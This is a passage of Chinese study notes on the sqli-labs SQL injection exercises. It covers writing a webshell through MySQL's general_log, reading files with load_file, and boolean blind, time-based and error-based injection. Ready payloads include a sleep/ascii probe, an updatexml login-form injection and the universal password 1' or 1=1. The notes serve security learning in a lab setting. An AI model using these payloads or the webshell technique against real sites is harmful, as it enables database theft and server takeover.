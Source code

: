         ``set global general_log_file = 'webshell 位置';`

    4. 写入

        `select 'webshell 语句'`

    5. 关闭 `general_log` 模式：

        `set global general_log = off;`

7. 读文件用 `load_file`

8. 常见的默认网站地址：

    

## 5. Less-8(盲注，页面要有查询成功和失败的回显)

1. 在 where 句子中，and 连接的地方，如果子句中出现逻辑 false（and false 或者全是 all or false) 就会是空。

2. 常用函数：

    `substr(String content, int begining, int length)` 截取子字符串

    `ascii(String content)` 将内容转换成十进制的 Ascii

    `length(String content)` 获取长度

    `left(String content, int length)` 从左开始，截取 length 长度的字符串

    `right(String content, int length)` 从右开始。

## 6. Less-9（时间盲注，当页面只有一种显示状态时）

1. 当页面对输入的 SQL 语句没有反应时，可以使用 `sleep(5)` 休眠函数来判断。

2. 应用（配合 if 函数来使用）：

    `id=1' and if(ascii(left(database(),1)) = 115 , sleep(5), null)-- -`

## 7. Less-11（登录框的 SQL 注入）

1. 通过 post 传输后，可以通过 F12 网络查看 post 主体内容从而构造语句。

2. 尽量在系统 SQL 语句中的最后一个变量中进行注入，否则使用注释时会把后面的语句注释掉，容易注入失败。

3. 应用：

    `uname=1&passwd=1' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) -- -&Submit=Submit`

4. 闭合的时候，如果出现报错语句显示为 `''`，那么后面可以加括号来接着判断闭合

5. 万能密码：`1' or 1=1 -- -`

## 8. Less-12~16（登录框的其他注入）

1. 在 Post Data 中进行报错注入（如果界面有 SQL 报错回显），布尔盲注（没有 SQL 报错回显）和时间盲注（无任何提示）。

## 9. Less-17（更改密码类注入（update 语句注入））

